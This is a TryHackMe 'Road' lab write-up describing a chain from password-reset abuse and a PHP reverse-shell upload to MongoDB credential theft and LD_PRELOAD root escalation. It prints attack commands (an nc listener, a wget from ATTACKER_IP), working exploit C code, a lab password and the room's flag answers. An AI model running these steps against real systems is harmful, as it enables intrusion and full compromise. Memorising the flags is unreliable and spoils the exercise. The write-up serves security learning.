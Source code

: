 # TryHackMe — Road (Medium) Write-up

## 📝 Overview
- **Room:** Road  
- **Difficulty:** Medium  
- **Date:** 12.09.2025  
- **Target IP:** xxx.xxx.xxx.xxx  

In this room, I exploited a vulnerable web application and leveraged a misconfigured MongoDB service to gain SSH access, finally escalating privileges to root through an LD_PRELOAD misconfiguration.  

---

## 🔎 Enumeration
We start with a full port scan:  

```bash
sudo nmap -sC -sV -Pn -p- xxx.xxx.xxx.xxx
```

**Results:**
- **22/tcp → SSH**  
- **80/tcp → HTTP**

---

## 🌐 Web Enumeration
On port 80, the website displayed a basic "Sky" page.  

Directory brute force with Gobuster:  

```bash
gobuster dir -u http://xxx.xxx.xxx.xxx -w /usr/share/wordlists/dirb/common.txt
```

**Found:**
- `/phpmyadmin`
- `/index.php`
- `/v2` → redirected to `/v2/admin/login.html`

---

## 🔓 Exploitation
At `/v2/admin/login.html`, I found a login form with registration enabled.  

### Step 1 — Registration
I registered a new account and logged in. In the profile section, there was an option to **upload an image**.  

### Step 2 — Password reset abuse
I discovered the email `admin@sky.thm`. Using **Burp Suite**, I intercepted the password reset request and changed my email parameter to `admin@sky.thm`.  

This gave me **admin access**.  

### Step 3 — File upload RCE
I uploaded a **PHP reverse shell** from PentestMonkey.  

Listener:  
```bash
nc -lvnp 4444
```

Shell uploaded to `/v2/profileimages/shell.php` → accessed in browser:  

```
http://xxx.xxx.xxx.xxx/v2/profileimages/shell.php
```

Shell obtained as `www-data`.  

To stabilize:  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## ⚙️ Privilege Escalation

### Step 1 — www-data → webdeveloper
I uploaded **LinPEAS**:  

```bash
wget http://ATTACKER_IP/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

It revealed MongoDB. Connected locally:  

```bash
mongo
show databases
use backup
db.user.find()
```

**Credentials found:**  
- User: `webdeveloper`  
- Password: `BahamasChapp123!@#`  

SSH login:  
```bash
ssh webdeveloper@xxx.xxx.xxx.xxx
```

---

### Step 2 — webdeveloper → root
Check sudo:  
```bash
sudo -l
```

Found: `/usr/bin/sky_backup_utility` with **LD_PRELOAD** enabled.  

Exploit:  

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

Compile:  
```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles
```

Run:  
```bash
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```

→ Root shell obtained 🎉  

---

## 🎯 Flags
```bash
cat /home/webdeveloper/user.txt
```
**User flag:** `63191e4ece37523c9fe6bb62a5364d45`  

```bash
cat /root/root.txt
```
**Root flag:** `3a62d897c40a815ecbe267df2f533ac6`  

---

## ✅ Lessons Learned
- Always validate password reset logic.  
- Sanitize and restrict file uploads.  
- Do not expose MongoDB without authentication.  
- Remove dangerous sudo configurations like `env_keep+=LD_PRELOAD`.  

---

## 🔚 Conclusion
This machine clearly demonstrates **attack chaining**:  
1. Weak password reset → admin access  
2. File upload → RCE (www-data)  
3. MongoDB misconfig → SSH creds (webdeveloper)  
4. LD_PRELOAD misconfiguration → root  

Final result → **Full compromise of the system**.
